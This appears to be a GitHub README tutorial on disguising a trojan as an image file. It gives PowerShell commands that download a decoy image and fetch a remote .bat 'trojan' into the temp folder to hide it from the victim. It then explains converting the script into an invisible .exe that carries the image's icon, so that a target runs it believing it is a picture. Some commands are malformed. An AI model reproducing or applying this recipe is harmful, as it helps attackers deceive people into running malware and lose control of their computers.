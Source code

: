 <h1 align="center">Welcome to Repositorie of how to add Trojan in backdoor👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg)](https://www.python.org/)


### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)

<p align =center >
  <img src="https://media.tenor.com/-r6mKisZ_ycAAAAM/tokusatsu-ultraman.gif" height='288' width='512' />
</p>

<h2 align="center"> Dont try this at Home, School,Or any other public place!!! </h2>
<br>

<h1 align="center"> Introduction to Trojan</h1>

<p>
A Trojan Horse Virus is a type of malware that downloads onto a computer disguised as a legitimate program. The delivery method typically sees an attacker use social engineering to hide malicious code within legitimate software to try and gain users' system access with their software.
  <P/>

  <h2> If you don't know how to make trojan you need to see my previous repository in that I have explain fully how to make trojan then after that you need to use this repository to add trojan at backdoor. </h2>

### 🏠 [How to make trojan ](https://github.com/AnandKatariya/Create-Trojan)

## But all apart in this we will learn how to add trojan in backdoor from powershell.

<h2>Go to browser and select the image which you want to send to target.</h2><br>
<h2>Then open powershell and direct the powershell to desktop.</h2><br>

## Direct to desktop 
```sh
cd .\Desktop\
```

Then after this it will be redirected to desktop and after that paste the command but before pasting just edit website.com to ehich image you want to send to target paste that URL.

## Downlode you image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
```
Paste this into your powershell and you will able to downlode the image you can see it on desktop, But if you need to add trojan into backdoor you need to add som new command to codeline.

<h2> If you have trojan file add it but if you dont have you need to create it, If you dont know to to create it just check my last repo.. and you will learn. After creating the trojan you need to save it as .bat file.  </h2>
<br>
<h3> Now here we will place the trojan file inside the image so we need to add the command in powershell is,</h3>
  
  ## Add trojan in image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```
<br>
<h3> But this is not the way if you will downlode the virus file on desktop user will know this so we need to go to temp directory. So </h3>

 # To add file in temp
```sh
cd %temp%
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```

after this you need to save this and and you need to save this in all file not in text document and after that save as extension as matrix-trojan.bat
you need to save it as .bat it is mandatory. But you will see that file not looking properly it looking like any suspious file so we need to modify it. So we all need to do is 

## Downlode bat to exe converter

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Backdoor-Trojan/16545e42c093f37c828f551632a0067c4cdfce69/logo/bat-to-exe-file.svg)](https://github.com/AnandKatariya/Backdoor-Trojan/blob/main/Bat_To_Exe_Converter_x64.exe)


<h2> After install open the file or drag and drop it in the Bat to Exe converter and run the file then select the icon as the thumnail of the same image but before select the icon go to png to ico converter online and convert the image in ico file and then add it as logo and change the exe format into invisible after this you will convert it and thats it your are done.</h2>

## Author

👤 **Anand Katariya**

